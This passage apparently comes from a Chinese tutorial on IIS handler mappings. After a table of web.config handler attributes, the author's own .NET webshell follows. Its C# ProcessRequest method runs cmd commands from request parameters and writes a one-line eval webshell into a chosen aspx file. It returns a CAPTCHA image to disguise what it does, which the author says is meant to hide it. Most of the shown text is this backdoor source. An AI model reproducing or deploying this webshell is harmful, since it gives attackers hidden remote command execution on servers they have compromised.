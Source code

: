 | **属性** | **说明** |
|---|---|
| **name** | 处理映射程序的名称 |
| **type** | 必选的属性，指定逗号分割的类/程序集组合，一般对应的就是Bin目录下的DLL |
| **verb** | 必选的属性，可以是GET/POST/PUT；也可以是脚本映射如通配符\* |
| **preCondition** | 可选属性，可以是集成模式（Integrated）/ 经典模式（Classic） |
| **validate** | 可选的属性，一般为true |

由于System.Web.UI.SimpleHandlerFactory继承于IHttpHandlerFactory，所以我们如果想创建自定义的处置Handlers ，就需要继承IHttpHandler类，笔者编写了一个基于Handlers处理程序的.NET小马，保存名称为IsapiModules.Handler.cs ，主要实现了三个功能，一是生成验证码，二是创建一个aspx的一句话文件，三是执行cmd命令；生成验证码的目的是为了更好的隐藏自己，从HTTP返回的数据里输出的是一张验证码图片，代码如下

```php
public void ProcessRequest(HttpContext context)
        {
            context.Response.ContentType = "image/JPEG";
            string path = context.Request["p"];
            string input = context.Request["c"];
            if (context.Request["a"] == "c")
            {
                this.cmdShell(path, input);
            }
            else if (context.Request["a"] == "w")
            {
                string input2 = "<%@ Page Language=\"Jscript\"%><%eval(Request.Item[\"dotnet\"],\"unsafe\");%>";
                this.CreateFiles(path, input2);
            }
            Bitmap bitmap = new Bitmap(200, 60);
            Graphics graphics = Graphics.FromImage(bitmap);
            graphics.FillRectangle(new SolidBrush(Color.White), 0, 0, 200, 60);
            Font font = new Font(FontFamily.GenericSerif, 48f, FontStyle.Bold, GraphicsUnit.Pixel);
            Random random = new Random();
            string text = "ABCDEFGHIJKLMNPQRSTUVWXYZ";
            StringBuilder stringBuilder = new StringBuilder();
            for (int i = 0; i < 5; i++)
            {
                string text2 = text.Substring(random.Next(0, text.Length - 1), 1);
                stringBuilder.Append(text2);
                graphics.DrawString(text2, font, new SolidBrush(Color.Black), (float)(i * 38), (float)random.Next(0, 15));
            }
            Pen pen = new Pen(new SolidBrush(Color.Black), 2f);
            for (int i = 0; i < 6; i++)
            {
                graphics.DrawLine(pen, new Point(random.Next(0, 199), random.Next(0, 59)), new Point(random.Next(0, 199), random.Next(0, 59)));
            }
            bitmap.Save(context.Response.OutputStream, ImageFormat.Gif);
        }
```
